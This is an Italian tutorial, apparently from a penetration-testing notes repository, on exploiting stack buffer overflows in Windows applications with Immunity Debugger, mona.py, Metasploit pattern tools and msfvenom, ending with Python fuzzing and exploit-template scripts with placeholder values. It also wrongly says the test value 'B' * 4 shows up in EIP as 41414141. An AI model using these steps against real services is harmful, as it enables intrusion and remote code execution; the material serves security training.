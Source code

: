 Link di riferimento:

*] https://liodeus.github.io/2020/08/11/bufferOverflow.html  
*] https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst  
*] https://github.com/corelan/mona

Il test è più semplice se si riesce a ottenere una copia dell'eseguibile in esecuzione.  
Meglio se accompagnato da codice sorgente.

Primo passaggio: Avviare l'applicazione
----------------------------------------  
Avvia ImmunityDebugger in una installazione di Windows e da lì aprire ed eseguire l'applicazione da analizzare o agganciare il processo dell'applicazione da analizzare.

Secondo passaggio: Fuzzing
-----------------------------  
Si tratta di capire quanti byte sono necessari per causare il crash dell'applicazione.  
Uno strumento per creare un pattern di caratteri da inviare all'applicazione è */usr/share/metasploit-framework/tools/exploit/pattern_create.rb/pattern_create.rb*.  
La sintassi dello strumento prevede di specificare con il parametro *-l* la dimensione in byte che avrà il pattern.

Terzo passaggio: Calcolo dell'offset
----------------------------------------------------------------  
Per offset si intende la quantità di byte necessari per riempire il buffer dell'applicazione e poter successivamente sovrasscrivere una porzione dello stack di memoria.  

Per individuare l'offset usare sempre il tool */usr/share/metasploit-framework/tools/exploit/pattern_create.rb* e generare un nuovo pattern con una dimensione maggiorata di qualche byte
(Es. durante la fase di fuzzing sono stati sufficienti 100 byte per causare il crash, creare un pattern di 500).  

In ImmunityDebugger, sfruttando lo script *mona.py*, il comando *!mona findmsp -distance [BYTE_PATTERN]* permette di ricavare il valore dell'offset.  
Sempre da ImmunityDebugger, in alternativa, si ricava l'indirizzo del valore EIP e usando */usr/share/metasploit-framework/tools/exploit/pattern_create.rb/pattern_offset.rb -q [VALORE_EIP] -l [BYTE_PATTERN]* si ricava l'offset.  

E' possibile verificare che l'offset sia giusto inviando all'applicazione un numero di caratteri pari al valore stesso dell'offset (Es. "A" * offset) seguito da 4 byte di un valore a scelta (Es. "B" * 4).  
In ImmunityDebugger vedremo che l'applicazione va in crash e nel campo EIP comparirà il valore *41414141* che corrisponde a "B" * 4.  
Questa verifica suggerisce che possiamo scrivere nello stack di memoria riservato dal programma.

Terzo passaggio: Individuare i valori che causano l'interruzione del shellcode
-------------------------------------------------------------------------------
Prima di inviare il payload da eseguire, è necessario individuare quali caratteri causano una interruzione della shellcode e una chiusura anticipata del programma.
Ad esempio, se il l'applicazione è scritta in C (e varianti), il carattere *\x00* va escluso perché corrisponde al null byte, interruzione di stringa.
Quindi, al fine di trovare tutti i caratteri che possono causare problemi nell'esecuzione del nostro payload, in ImmunityDebugger, usando il comando *!mona bytearray -b [VALORI_DA_ESCLUDERE]*, si genera un array di caratteri esadecimali meno i valori/caratteri specificati.

Il bytearray generato va inviato all'applicazione come payload, dopo l'offset e dopo il valore di ritorno.
Sempre in ImmunityDebugger, dopo il crash dell'applicazione usare il comando *!mona compare -f C:\mona\[PATH]\bytearray.bin -a [ESP_ADDRESS]*.
Il confronto tra l'array generato in precedenza e il valore riportato all'indirizzo ESP, ci permette di ricavare quali ulteriori caratteri siano da escludere dal payload.
Da notare che non tutti i caratteri individuati sono da escludere. La corruzione di un carattere può comportare la corruzione del carattere successivo.
Ad esempio, la corruzione del carattere "\x05" può causare la corruzione del carattere "\x06" ma da escludere sarà solo il primo.

In caso di nuovi caratteri da escludere, si ripete la creazione del bytearray specificando tutti i caratteri da escludere.
Si reinvia all'applicazione e si ripete il confronto.

Solo quando il risultato del confronto sarà "Unmodified" e non ci saranno altri caratteri corrotti si può concludere questa fase.

Quarto passaggio: Generazione del payload e individuazione dei punti JMP
-------------------------------------------------------------------------
Il tool più immediato per la generazione della shellcode è msfvenom.  
Esempio di uso, *msfvenom -p [PAYLOAD] [PARAMETRI_PAYLOAD] -b [CARATTERI_DA_ESCLUDERE] -f [FORMATO_SHELLCODE]*  
Il risultato va inviato come parte del payload all'applicazione.

Per poter eseguire correttamente tutto il payload è necessario che al posto delle 4 "B" usate come test ci sia un indirizzo vero.  
Questo indirizzo deve corrispondere a un punto nello stack a cui il programma deve saltare per eseguire le istruzioni della shellcode, un JMP Point o Return Address).  
Il comando *!mona jmp -r esp -cpb [BAD_CHARS]* consente di individuare uno o più JMP Points.  
Tale valore, nello script va scritto secondo la convenzione Little-Endian ovvero a rovescio (Es. "A1B2C3D4" si scrive "\xD4\xC3\xB2\xA1")

Quinto passaggio: Valori NOPs
------------------------------
Il valore No Operation, abbreviato NOP e corrispondente al carattere "\x90", istruisce Windows a considerare quello spazio come vuoto e di passare oltre.  Aggiungendo un certo numero di NOPs dopo il Return Address si crea uno spazio di comodo in modo tale che non si verifichino sorprese nell'esecuzione della shellcode.  
Per la stessa ragione si aggiunge una quantità di NOPs, seppur ridotta, dopo la shellcode.

Pre = "\x90" * 32  
Post = "\x90" * 16

-------------------------------------------------------------------

Lista comandi mona.py.

CONFIGURA SPAZIO DI LAVORO  
!mona config -set workingfolder c:\mona\%p

CALCOLA OFFSET - VALORE PATTERN  
!mona findmsp -distance [LUNGHEZZA_BYTE_STRINGA]

CREAZIONE ARRAY DI VALORI (INIZIALE CON \x00)  
!mona bytearray -b [CARATTERI_DA_ESCLUDERE]

COMPARA ARRAY E VAORI RICEVUTI NEL PAYLOAD PER INDIVIDUARE ULTERIORI CARATTERI "DANNOSI" - USARE VALORE ESP  
!mona compare -f C:\mona\oscp\bytearray.bin -a [VALORE_ESP]

INDIVIDUA SALTO SPECIFICANDO I CARATTERI DA ESCLUDERE USATIANCHE SOPRA - IL VALORE VA SCRITTO NELL'EXPLOIT IN BASE ALL'ORDINE BIG O LITTLE ENDIAN  
!mona jmp -r esp -cpb [CARATTERI_DA_ESCLUDERE]

--------------------------------------------------------------------

Esempi script in python.

Fuzzing script
----------------

#!/usr/bin/env python3

import socket, time, sys

ip = [IP]

port = [PORTA]  
timeout = 5  
prefix = ""

string = prefix + "A" * 100

while True:  
  try:  
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:  
      s.settimeout(timeout)  
      s.connect((ip, port))  
      s.recv(1024)  
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))  
      s.send(bytes(string, "latin-1"))  
      s.recv(1024)  
  except:  
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))  
    sys.exit(0)  
  string += 100 * "A"  
  time.sleep(1)


Exploit script
---------------
import socket

ip = [IP]  
port = [PORTA]

prefix = ""  
offset = 0  
overflow = "A" * offset  
retn = ""  
padding = ""  
payload = ""  
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:  
  s.connect((ip, port))  
  print("Sending evil buffer...")  
  s.send(bytes(buffer + "\r\n", "latin-1"))  
  print("Done!")  
except:  
  print("Could not connect.")
